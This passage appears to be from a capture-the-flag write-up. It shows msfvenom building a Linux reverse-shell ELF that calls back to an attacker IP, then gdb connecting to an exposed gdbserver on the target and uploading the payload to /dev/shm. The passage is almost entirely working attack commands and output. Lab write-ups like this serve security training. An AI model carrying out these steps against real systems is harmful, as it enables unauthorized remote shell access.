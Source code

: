 First we create an elf binary.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.21.94.28 LPORT=443 PrependFork=true -f elf -o rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload                     
[-] No arch selected, selecting arch: x64 from the payload                                                                                                                                                         
No encoder specified, outputting raw payload                                                                                                                                                                       
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: rev.elf
```

Now we open the file locally using `gdb`

```terminal
[★]$ gdb -q rev.elf                             
Reading symbols from rev.elf...                     
(No debugging symbols found in rev.elf)                                                                  
(gdb)
```

Now we connect to the remote server on port 6048.

```terminal
(gdb) target extended-remote 10.10.151.120:6048
Remote debugging using 10.10.151.120:6048
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /usr/lib/debug/.build-id/7a/e2aaae1a0e5b262df913ee0885582d2e327982.debug from remote target...
Reading /usr/lib/debug/.build-id/7a/e2aaae1a0e5b262df913ee0885582d2e327982.debug from remote target...
Reading symbols from target:/usr/lib/debug/.build-id/7a/e2aaae1a0e5b262df913ee0885582d2e327982.debug...
Reading /usr/lib/debug/.build-id/e9/8c2a320466a026c0a0236da38a5156f9b8cb54.debug from remote target...
0x00007ffff7fd0100 in _start () from target:/lib64/ld-linux-x86-64.so.2
(gdb)
```

Now we upload the file.

```terminal
(gdb) remote put rev.elf /dev/shm/rev
Successfully sent file "rev.elf".
```
